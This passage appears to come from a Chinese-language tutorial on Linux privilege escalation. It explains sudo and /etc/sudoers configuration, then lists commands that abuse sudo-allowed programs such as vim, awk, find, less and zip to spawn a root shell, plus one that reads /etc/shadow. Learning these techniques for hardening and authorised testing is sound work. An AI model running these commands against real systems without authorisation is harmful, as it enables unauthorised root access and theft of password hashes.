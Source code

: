 ```
提权成功。
```

![image-20241017203019112](操作系统提权/image-20241017203019112.png)	

### sudo滥用提权

```
提权原理 
sudo是linux系统管理指令，是允许系统管理员让普通用户执行一些或者全部的root命令的一个工具，如reboot，su等等。这样不仅减少了root用户的登录 和管理时间，同样也提高了安全性。sudo不是对shell的一个代替，它是面向每个命令的。在一些应用场景里面，为了方便运维人员以低权限帐号进行运维，往往会开启帐号的一些SUDO权限给运维帐号，而SUDO权限的授予在/etc/sudoers中进行操作。
```

```
在/etc/sudoers的主要配置
cseroad ALL=(ALL:ALL) NOPASSWD:/usr/bin/apt-get
cseroad表示用户名；第一个 ALL 指示允许从任何终端访问sudo；第二个 (ALL:ALL)指示sudo命令可以以任意用户身份运行、任意组执行；第三个 NOPASSWD 表示不需要输入密码且可以sudo执行的命令
```

```
如果给sudo配置文件配置了ALL(所有命令都可sudo) 或者以下的命令就可以进行提权
wget、find、cat、apt、zip、xxd、time、taskset、git、sed、pip、ed、tmux、scp、perl、
bash、less、awk、man、vi、env、ftp、ed、screen
提权的命令具体如下
一条命令提权的
sudo vim -c '!sh'
sudo awk 'BEGIN {system("/bin/sh")}'
sudo xxd "/etc/shadow" | xxd -r
sudo env /bin/sh
sudo perl -e 'exec "/bin/sh";'
sudo zip 2.zip 1.txt -T --unzip-command="sh -c /bin/sh"
sudo sed -n '1e exec sh 1>&0' /etc/passwd
sudo find /etc/passwd -exec /bin/sh \;
两条命令提权的
sudo git help config
!/bin/sh
sudo ftp
!/bin/sh
sudo less /etc/hosts
!sh
sudo ed
!/bin/sh
sudo man man
!/bin/sh
```
